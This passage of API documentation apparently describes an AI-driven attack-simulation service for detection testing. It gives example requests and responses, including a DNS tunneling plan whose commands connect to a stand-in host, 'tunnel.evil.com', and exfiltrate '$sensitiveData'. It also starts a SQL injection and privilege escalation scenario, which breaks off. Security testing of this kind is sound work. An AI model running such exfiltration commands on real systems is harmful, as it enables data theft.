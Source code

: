 
## 🌐 **2. REQUEST ATTACK BY NAME**

### **Example: User wants DNS Tunneling**
```javascript
// REQUEST
POST /api/ai-attack/named-attack
{
  "attackName": "DNS Tunneling",
  "objective": "Test DNS-based data exfiltration detection"
}

// RESPONSE
{
  "workflowId": "wf-456",
  "attackPlan": {
    "name": "DNS Tunneling Simulation",
    "description": "Simulating data exfiltration via DNS queries",
    "phases": [
      {
        "phase": 1,
        "action": "Setup DNS tunnel client",
        "commands": ["Install-Module DNSTunnel", "New-DNSChannel -Server tunnel.evil.com"]
      },
      {
        "phase": 2,
        "action": "Encode and transmit data",
        "commands": ["Invoke-DNSExfil -Data $sensitiveData -Chunk 63"]
      },
      {
        "phase": 3,
        "action": "Verify detection",
        "commands": ["Get-DNSClientCache | Where {$_.Name -like '*tunnel*'}"]
      }
    ],
    "detectionTest": "Checking if SIEM detected unusual DNS patterns",
    "safetyNote": "Simulation only - no actual data exfiltrated"
  },
  "status": "awaiting_approval"
}
```

---

## 🤖 **3. AI-GENERATED CUSTOM SCENARIOS**

### **Example: User describes what they want**
```javascript
// REQUEST - Natural language request
POST /api/ai-attack/custom-scenario
{
  "request": "Can you create an attack scenario that tests our database security? Focus on SQL injection and privilege escalation.",
  "constraints": {
    "maxDuration": "30 minutes",
    "avoidDisruption": true,
    "targetSystems": ["database-servers"]
  }
}

// RESPONSE - AI creates complete scenario
{
  "workflowId": "wf-789",
```